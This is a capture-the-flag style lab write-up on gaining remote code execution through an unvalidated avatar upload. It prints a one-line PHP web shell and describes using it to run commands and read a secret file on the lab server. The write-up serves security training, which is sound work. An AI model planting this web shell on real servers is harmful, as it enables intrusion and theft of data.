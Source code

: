 # Lab: Remote code execution via web shell upload

This lab contains a vulnerable image upload function. It doesn't perform any validation on the files users upload before storing them on the server's filesystem.

To solve the lab, upload a basic PHP web shell and use it to exfiltrate the contents of the file /home/carlos/secret. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: wiener:peter

# Solution
When using the provided credentials we can see a form for uploading a avatar for the account.  
![](./img/Lab_1_First_Login.png)


We start by uploading an image to see how the request and what the proper functionality looks like.  
![](./img/Lab_1_Upload_req_res.png)


And we can see that the name of the uploaded file is kept and we can access the file with the path seen in the URL field of the browser (```/files/avatars```).  
![](./img/Lab_1_Testing_upload.png)

Let's see if how we can upload a PHP script to solve the lab. We start by creating a PHP file containing this one line: ```<?php echo system($_GET['command']); ?>```
And we seem to be successful.  
![](./img/Lab_1_PHP_script_uploaded.png)


And we have a working webshell where we can execute system commands (in this case "id"):  
![](./img/Lab_1_Testing_command.png)


Using the cat command we can get the content of the file requested in the lab instructions.  
![](./img/Lab_1_Getting_secret.png)


![](./img/Lab_1_Solved.png)